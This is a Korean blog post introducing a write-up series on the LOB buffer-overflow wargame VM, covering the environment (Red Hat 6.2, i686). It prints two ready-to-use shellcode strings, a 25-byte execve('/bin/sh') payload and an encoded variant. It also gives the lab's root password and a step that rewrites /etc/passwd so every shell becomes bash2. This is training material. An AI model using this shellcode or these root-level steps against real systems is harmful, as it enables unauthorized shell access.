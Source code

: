 ```yaml
---
layout: single
title: "LOB Intro"
#description: ""
date: 2016-02-05 12:00:00 -0400
# modified: 
tags: 
- WarGame
- WriteUp
- Pwnable
comments: true
share: true
---
```


BOF의 OS의 종류와 버전은 LOB의 VM을 통해 Red Hat Linux 6.2라는 것을 알 수 있으며 리눅스 환경이므로 ELF 파일구조를 사용함과 어셈블리어가 at&t 문법임을 유추해 낼 수 있다. 그리고 아래와 같이 i686 아키텍처이므로 32bit 메모리를 사용함을 알 수 있다.

![arch]({{site.url}}{{site.baseurl}}/assets/images/2019-06-05-LOB-Intro/0.PNG)


LOB 풀이에 사용한 쉘코드는 다음과 같다.

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
```

25bytes shellcode(execve(“/bin/sh”) 사용)

```
\xd9\xc5\xd9\x74\x24\xf4\xb8\x15\xc3\x69\xd7\x5d\x29\xc9\xb1\x0b\x31\x45\x1a\x03\x45\x1a\x83\xc5\x04\xe2\xe0\xa9\x62\x8f\x93\x7c\x13\x47\x8e\xe3\x52\x70\xb8\xcc\x17\x17\x38\x7b\xf7\x85\x51\x15\x8e\xa9\xf3\x01\x98\x2d\xf3\xd1\xb6\x4f\x9a\xbf\xe7\xfc\x34\x40\xaf\x51\x4d\xa1\x82\xd6
```

/x2f가 없는 shellcode


그리고 LOB의 default shell(bash)의 버전이 낮아 /xff의 입력을 /x00으로 받아들이는 오류가 있으므로 bash2를 사용하도록 한다. root 권한으로 이를 한꺼번에 바꾸도록 한다. root의 패스워드는 hackerschoolbof이다. root로 로그인 후 /etc/passwd를 열어 bash를 bash2로 모두 치환해준다.

![bash2]({{site.url}}{{site.baseurl}}/assets/images/2019-06-05-LOB-Intro/1.PNG)


다음은 C언어의 stack frame structure이다.


![[memory map of a typical C ELF executable on x86]]({{site.url}}{{site.baseurl}}/assets/images/2019-06-05-LOB-Intro/2.PNG)